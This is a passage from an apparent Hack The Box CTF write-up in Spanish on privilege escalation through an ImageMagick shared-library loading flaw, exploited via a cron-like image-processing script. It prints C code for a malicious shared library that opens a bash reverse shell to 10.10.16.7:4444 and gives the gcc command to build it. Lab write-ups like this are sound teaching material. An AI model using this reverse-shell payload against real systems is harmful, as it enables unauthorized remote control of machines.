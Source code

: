 Exploramos el directorio ``/opt/``, donde encontramos tres subdirectorios: app, containerd y scripts. Dentro de ``/opt/scripts/``, descubrimos un script interesante llamado **identify_images.sh**
El contenido del script identify_images.sh revelaba que:
- Cambiaba el directorio de trabajo a /opt/app/static/assets/images/.
- Vaciaba el contenido del archivo metadata.log con truncate -s 0 metadata.log.
- Encontraba todos los archivos .jpg en ese directorio.
- Procesaba esas imágenes usando el comando identify de ImageMagick y almacenaba la salida en metadata.log.
<p align="center">
  <img src="https://github.com/ElChe1/Explotation-Lab/blob/main/HTB/Easy/Titanic/media/img/cat.png" alt="cat" style="border-radius: 10px;">
</p>

<br>

Este comportamiento automático indicaba que cualquier archivo **.jpg** subido en esa ruta sería procesado automáticamente mediante identify. Investigando vulnerabilidades conocidas en **ImageMagick**, descubrimos que ciertas versiones de la herramienta son vulnerables a la ejecución de código arbitrario mediante la carga maliciosa de bibliotecas compartidas. <a href="https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8">Arbitrary Code Execution in `AppImage` version `ImageMagick`</a>
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void __attribute__((constructor)) init() {
    system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.7/4444 0>&1'");
    exit(0);
}
```
<p align="center">
  <img src="https://github.com/ElChe1/Explotation-Lab/blob/main/HTB/Easy/Titanic/media/img/exploit.png" alt="exploit" style="border-radius: 10px;">
</p>

<br>

Explicación del codigo:
- **Lenguaje:** Código en C destinado a compilarse como una biblioteca compartida (.so).
- **Constructor:** La función init() usa __attribute__((constructor)), lo que provoca que se ejecute automáticamente al cargar la librería.
- **Acción principal:** Dentro de init(), se ejecuta system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.7/4444 0>&1'"); para lanzar una reverse shell.
- **Reverse Shell:** Establece una conexión interactiva hacia la máquina atacante 10.10.16.7 en el puerto 4444.
- **Terminación:** Después de ejecutar la shell, el programa llama a exit(0); para finalizar limpiamente.

Para aprovechar está vulnerabilidad, creamos una biblioteca compartida maliciosa **libxcb.so.1** compilándola de la siguiente manera:
``` bash
gcc -x c -shared -fPIC -o ./libxcb.so.1 exploit.c
```
<p align="center">
  <img src="https://github.com/ElChe1/Explotation-Lab/blob/main/HTB/Easy/Titanic/media/img/gcc.png" alt="gcc" style="border-radius: 10px;">
</p>
